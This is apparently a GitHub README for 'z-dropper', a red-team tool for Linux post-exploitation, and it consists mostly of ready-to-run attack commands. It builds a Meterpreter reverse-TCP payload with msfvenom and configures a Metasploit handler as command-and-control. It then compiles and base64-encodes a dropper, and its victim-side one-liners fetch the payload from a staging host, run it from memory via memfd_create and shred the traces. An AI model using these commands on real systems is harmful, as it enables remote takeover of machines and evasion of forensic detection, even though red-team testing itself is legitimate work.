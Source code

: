 # z-dropper

## Purpose

This repository contains the collection of

## Backend (basic version)

Staging machine (ephemeral) serving stageless `mettle` payload:

```
staging$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<C2_IP> LPORT=443 --platform linux -f elf -a x64 -o beacon-mettle
staging$ nc -nlvp 443 < beacon-mettle
```

Meterpreter handler as our command and control (`C2`) machine:

```
c2$ cat > mettle-handler.rc <<'EOF'
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <C2_IP>
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

c2$ msfconsole -r mettle-handler.rc
```

## Case 1

Assumptions:

 - Red Team member has already achieved remote `/bin/sh` access to the victim machine.
 - Only `z-dropper` is dropped on the victim's filesystem (though only on `tmpfs`).
 - Main payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall (directly from memory).

Preparing C version:

```
# Getting z-dropper source file:
wget https://raw.githubusercontent.com/mzet-/z-dropper/main/z-dropper-case1.c

# Compilation and base64 encoding:
EXE=z-dropper-case1; zig cc -static -Os -target x86_64-linux-musl ${EXE}.c -o $EXE; strip -x -R -s -g $EXE; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

Preparing Zig version:

```
# Compilation and base64 encoding:
EXE=z-dropper-case1; zig build-exe -OReleaseSmall --strip ${EXE}.zig; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

## Case 2

Assumptions:

 - Red Team member has already achieved remote `/bin/sh` access to the victim machine.
 - Pure fileless execution (with the help of Python interpreter)
 - Python 3 interpreter is required on the victim machine. 
 - Payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall using Python's `ctype` module.
